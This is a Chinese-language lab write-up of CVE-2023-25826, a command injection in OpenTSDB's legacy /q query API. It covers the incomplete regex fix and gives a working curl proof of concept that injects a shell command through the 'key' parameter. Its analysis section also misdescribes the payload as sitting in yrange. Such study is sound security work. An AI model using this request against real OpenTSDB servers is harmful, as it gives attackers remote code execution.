


# CVE-2023-25826 CWE-78 OpenTSDB 命令注入

## 漏洞背景

**/q 接口**：OpenTSDB 提供了基于 HTTP 的 API 接口，允许用户查询、存储和管理时间序列数据。其中，`/q` 接口用于查询时间序列数据，支持多种参数以满足不同的查询需求。`/q` 接口还支持其他参数，以提供更灵活的查询功能，如`xrange` 和 `yrange`：设置 X 轴和 Y 轴的显示范围。

## 漏洞原理

该漏洞存在于 OpenTSDB 的遗留 HTTP 查询 API 中，原因是未对传入的参数进行充分的验证，攻击者可以将精心构造的操作系统命令注入到多个参数中，从而在 OpenTSDB 主机系统上执行恶意代码。

攻击者可以通过在查询 URL 的 `key` 参数中注入恶意操作系统命令来执行远程代码。

这个漏洞的根源是之前在 CVE-2020-35476 （构造 `yrange` 参数，注入恶意命令）中曾尝试进行修复，但修复并不完全。尽管实施了正则表达式验证来限制查询 API 的输入，但该验证未按预期工作，导致攻击者能够绕过验证并成功注入恶意命令。

## 漏洞定位

1、在 **src\tsd\GraphHandler.java** 文件的第 **741** 行，可以看到添加了检查 `value` 是否符合 `RANGE_VALIDATOR` 定义的正则表达式的部分，这是对 **CVE-2020-35476** 漏洞的修复

```java
/**
   * Applies the plot parameters from the query to the given plot.
   * @param query The query from which to get the query string.
   * @param plot The plot on which to apply the parameters.
   */
  static void setPlotParams(final HttpQuery query, final Plot plot) {
    final HashMap<String, String> params = new HashMap<String, String>();
    final Map<String, List<String>> querystring = query.getQueryString();
    String value;
    if ((value = popParam(querystring, "yrange")) != null) {
      if (!RANGE_VALIDATOR.matcher(value).find()) {
        throw new BadRequestException("'yrange' was invalid. "
            + "Must be in the format [min:max].");
      }
      params.put("yrange", value);
    }
    // ... 其他参数处理 ...

    plot.setParams(params);
  }
```

2、跟踪至 `RANGE_VALIDATOR` 定义的正则表达式，在第 **73** 行，它的目标是验证类似 `[min:max]` 的格式，其中 `min` 和 `max` 应该是数字（可以是负数、小数或科学计数法形式）

````java
 private static Pattern RANGE_VALIDATOR = Pattern.compile(
      "\\[\\\"?-?\\d+\\.?(\\d+)?([eE]-?\\d+)?\\\"?:\\\"?-?(\\d+\\.?\\d+?)?([eE]-?\\d+)?\\\"?\\]");
````

### 正则表达式拆解：

1. `\\[` 和 `\\]`：匹配方括号 `[` 和 `]`，这是用来包围范围的格式要求。
2. **`\\\"?`**：匹配可选的双引号 `"`，正则允许范围值被双引号包裹。
3. **`-?\\d+`**：匹配一个可选的负号（`-`），后面跟着一个或多个数字。
4. **`\\.?(\\d+)?`**：匹配一个可选的小数点 `.`，后面跟着可选的数字。
5. **`([eE]-?\\d+)?`**：匹配可选的科学计数法部分（即 `e` 或 `E`，后面跟着一个可选的负号和数字）。
6. **`:`**：匹配冒号 `:`，用于分隔范围的两个值（`min` 和 `max`）。
7. **`-?(\\d+\\.?\\d+?)?([eE]-?\\d+)?`**：第二个值（`max`）部分与第一个值类似，可以是负数、小数或科学计数法。
8. **`\\\"?`**：再次匹配可选的双引号 `"`

由于正则表达式要求输入必须是 `[min:max]` 格式，并且 `min` 和 `max` 必须是数字，但是有些参数是`string`类型而不是 `[min:max]` 格式，因此不受这个正则表达式的约束，如`key`参数


**修复：**

引入了 `validateString` 方法来对每个参数值进行额外的格式验证，特别是针对不同类型的参数的检查

## 影响版本

OpenTSDB <= 2.4.1

## 环境搭建

启动 docker 环境，OpenTSDB 版本为 2.4.1



## 漏洞复现

进入容器命令行：`docker exec -it opentsdb-2.4.1 bash`。

1、由于在利用漏洞时需要知道一个不为空的`metric`的名字，通过以下命令查看`metric`列表

```bash
curl "http://localhost:4242/api/suggest?type=metrics&q=&max=10"; echo
```

2、若为空，通过以下命令，利用API创建一个名为`sys.cpu.nice`的metric并添加一条记录；如果目标`OpenTSDB`存在`metric`，且不为空，则无需执行

```bash
curl -X POST -d '[{"metric": "sys.cpu.nice", "timestamp": 1676984400, "value": 50, "tags": {"host": "server1"}}]' http://localhost:4242/api/put; echo
```

3、在执行下面的命令前通过`ls /tmp/`命令查看tmp目录下的文件

4、执行如下命令，其中参数`m`的值必须包含一个有数据的`metric`，该命令是执行`touch /tmp/success`命令，用于修改success文件的访问和修改时间，或者创建新的`success`空文件，之后再通过`ls /tmp/`命令查看`tmp`目录下的文件，可以看到成功创建了名为`success`的文件

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=%5B42%3A42%5D&key=%3Bsystem%20%22touch%20/tmp/success%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```



## POC分析

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=%5B42%3A42%5D&key=%3Bsystem%20%22touch%20/tmp/success%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```

`yrange` 参数被设置为 `[0:system('touch /tmp/success')]`。该参数经过 URL 编码，`%5B` 和 `%5D` 分别表示方括号 `[` 和 `]`，`%27` 表示单引号 `'`。解码后，`yrange` 的值为 `[0:system('touch /tmp/success')]`。

在这个上下文中，`system('touch /tmp/success')` 将调用系统命令，在 `/tmp` 目录下创建一个名为 `success` 的空文件。如果服务器上的 OpenTSDB 存在此漏洞且未修复，执行上述 `curl` 命令后，服务器将执行 `touch /tmp/success` 命令，从而在 `/tmp` 目录下创建该文件。

在参数key这里，`key` 参数包含了一段 URL 编码的字符串，它的内容是 `;system "touch /tmp/success" "`，这是试图注入系统命令的部分，添加后的正则表达式并不会对`string`类型的参数进行检查

## 参考链接

[vulhub/opentsdb/CVE-2023-25826/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/opentsdb/CVE-2023-25826/README.zh-cn.md)

[OpenTSDB 中的命令注入 ·CVE-2023-25826 漏洞 ·GitHub Advisory 数据库 --- Command injection in OpenTSDB · CVE-2023-25826 · GitHub Advisory Database](https://github.com/advisories/GHSA-h475-7v3c-26q7)

[Improved fix for #2261. by manolama · Pull Request #2275 · OpenTSDB/opentsdb](https://github.com/OpenTSDB/opentsdb/pull/2275/files#diff-b1e89c14cdf66680c7fc71978b2c865883dd4aad6956c465d3d00108e6e0eef1)

[Awesome-POC/数据库漏洞/OpenTSDB 命令注入漏洞 CVE-2023-25826.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/数据库漏洞/OpenTSDB 命令注入漏洞 CVE-2023-25826.md)
